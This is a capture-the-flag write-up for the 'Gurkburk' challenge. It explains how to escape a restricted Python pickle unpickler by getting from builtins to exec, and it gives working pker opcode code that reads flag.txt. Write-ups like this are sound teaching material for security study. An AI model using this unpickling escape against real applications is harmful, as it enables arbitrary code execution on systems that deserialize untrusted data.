





# Gurkburk

## Problem

The flag is located in `./flag.txt`.

## Solution

Pickle is used to save and load notes into the application.





Normally, we would be able to use the `__reduce__()` method to make the program call functions like `os.system()` \(see [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)\).

See [https://docs.python.org/3.7/library/pickle.html\#restricting-globals](https://docs.python.org/3.7/library/pickle.html#restricting-globals). The modules we can unpickle are restricted to `__main__`, `__builtin__` and `copyreg`. `eval` and `exec` are also banned.



Thanks to [https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search](https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search), I found a way to bypass the restrictions.

They created an API to generate Pickle opcodes: [https://github.com/EddieIvan01/pker](https://github.com/EddieIvan01/pker) \(I made some slight modifications\)

Exploit code:

```python
getattr = GLOBAL ( '__builtin__' , 'getattr' ) 
dict = GLOBAL ( '__builtin__' , 'dict' ) 
dict_get = getattr ( dict , 'get' ) 
glo_dic = GLOBAL ( '__builtin__' , 'globals' )() 
builtins = dict_get ( glo_dic , '__builtins__' ) 
exec = getattr ( builtins , 'exec' )
exec ("print(open('flag.txt', 'r').read())") 
return
```

The idea is that using `getattr`, we can get _submodules_ of `__builtin__` \(and the submodules of the submodules\). `__builtin__.globals()` includes `builtins`, which includes `exec`. Once we have control over `exec`, we can execute arbitrary code.



Submit the base64-encoded opcodes, and we obtain the flags.



## References

1. [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
2. [https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search](https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search)
3. [https://github.com/EddieIvan01/pker](https://github.com/EddieIvan01/pker)

